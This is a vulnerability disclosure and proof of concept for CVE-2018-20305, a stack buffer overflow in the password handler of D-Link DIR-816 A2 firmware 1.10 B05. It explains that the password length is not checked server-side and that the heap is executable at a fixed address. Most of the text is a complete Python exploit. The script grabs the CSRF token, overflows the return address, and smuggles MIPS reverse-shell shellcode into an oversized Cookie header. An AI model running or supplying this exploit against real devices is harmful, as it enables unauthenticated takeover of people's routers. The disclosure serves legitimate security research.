 # D-Link DIR-816 A2 Stack Overflow 
#### Vender & Firmware version ：D-Link 1.10 B05 
#### CVE-ID : CVE-2018-20305
#### Exploit Author : ScareCrowL 
#### Vendor Homepage : http://www.dlink.com.cn/
#### Hardware Link : http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816 
![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/DLINK.jpeg)
# Vulnerability Description
Stack-based buffer overflows found on d-link dir-816 A2 1.10 B05 devices allow arbitrary remote code execution without authentication.Embodied in the /goform/form2userconfig.cgi handler function, long password may lead to stack-based buffer overflow and cover the return address.
# Vulnerability Detail

In the route /goform/form2userconfig.cgi handler.The value of the parameter password is base64 decoded, and the result is stored on the stack.
The vendor only sets a password length limit on the front end, but does not check the password length for POST submission.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/IDA.jpg)

There's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GDB.jpg)

Fortunately, the heap is at fixed address with permission rwx. So we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.

After running the poc, we easily get the shell.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GETSHELL.png)

# POC
```python
#!/usr/bin/env python
# POC code reference: https://github.com/PAGalaxyLab/VulInfo/tree/master/D-Link/DIR-816/stack_overflow_1

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]
print 'tokenid is %s' % tokenid

# The return address will be overwritten as newRet 
newRet = '\x00\x00\x00\x00'

# Reverse shell to 192.168.0.100:31337
shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x00\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

pMy= "L"*156+ newRet

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pBuf= "username=A&oldpass=&newpass="+b64e(pMy)+"&confpass="+'&modify=B&select=s0&hiddenpass=&submit.htm=Send&tokenid=%s'% tokenid

payload = "POST /goform/form2userconfig.cgi " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pBuf)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pBuf

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
